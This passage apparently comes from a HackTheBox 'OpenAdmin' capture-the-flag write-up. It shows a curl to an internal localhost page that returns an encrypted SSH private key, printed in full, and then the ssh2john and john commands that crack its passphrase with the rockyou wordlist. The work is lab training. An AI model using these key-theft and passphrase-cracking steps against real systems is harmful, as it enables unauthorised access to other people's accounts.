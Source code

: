 Which turned out to be correct, the /internal pages are running on port 52846 and a simple curl gave us the ssh key

```html
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Now before we can use this to connect as joanna we have to find the password the Key, lets ask our friend John.
First convert the file into john-readable format:

```
/usr/share/john/ssh2john.py id_rsa > johnfile.txt
```

Now we can use this john to recover the password from the johnfile.

```
mindslave@kalibox:~/hackthebox/OpenAdmin/ssh$ john --wordlist=/usr/share/wordlists/rockyou.txt johnfile.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2020-02-07 08:27) 0.3745g/s 5371Kp/s 5371Kc/s 5371KC/sa6_123..*7¡Vamos!
Session completed
```